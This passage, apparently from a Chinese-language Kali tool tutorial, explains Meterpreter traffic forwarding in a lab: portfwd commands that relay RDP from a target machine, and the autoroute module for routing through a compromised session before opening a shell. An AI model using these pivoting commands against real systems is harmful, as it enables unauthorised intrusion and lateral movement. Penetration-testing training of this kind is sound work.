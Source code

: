 ![image-20241028151202509](https://image.201068.xyz/assets/4.kali工具/image-20241028151202509.png)

![image-20241028151145961](https://image.201068.xyz/assets/4.kali工具/image-20241028151145961.png)

![image-20241028151310324](https://image.201068.xyz/assets/4.kali工具/image-20241028151310324.png)

![image-20241028151354969](https://image.201068.xyz/assets/4.kali工具/image-20241028151354969.png)

![image-20241028151547235](https://image.201068.xyz/assets/4.kali工具/image-20241028151547235.png)

### 流量转发

#### portfwd

在**活动的Meterpreter会话中**键入`portfwd -h`将显示命令的各种选项和参数

`portfwd` 端口转发

> 192.168.70.21是靶机的ip
>
> 192.168.70.4是kali的ip

```bash
portfwd add -l 3389 -p 3389 -r 192.168.70.21

rdesktop 192.168.70.4

portfwd
portfwd list	#列出端口转发
portfwd flush	#删除清空
portfwd del -l 3389 -p 3389 -r 192.168.70.21	#一条条删除	
```

![image-20241028153027901](https://image.201068.xyz/assets/4.kali工具/image-20241028153027901.png)

![image-20241028153235325](https://image.201068.xyz/assets/4.kali工具/image-20241028153235325.png)

#### post/multi/manage/autoroute

```bash
background
use post/multi/manage/autoroute 			//自动路由
set session 3
run

route add 192.168.70.0 255.255.255.0 1 	//手动添加
route print							//打印路由
route flush 						 //删除路由
route get 192.168.70.21  			//检查路由是否使用session 1


sessions -i 3
shell
chcp 65001

```
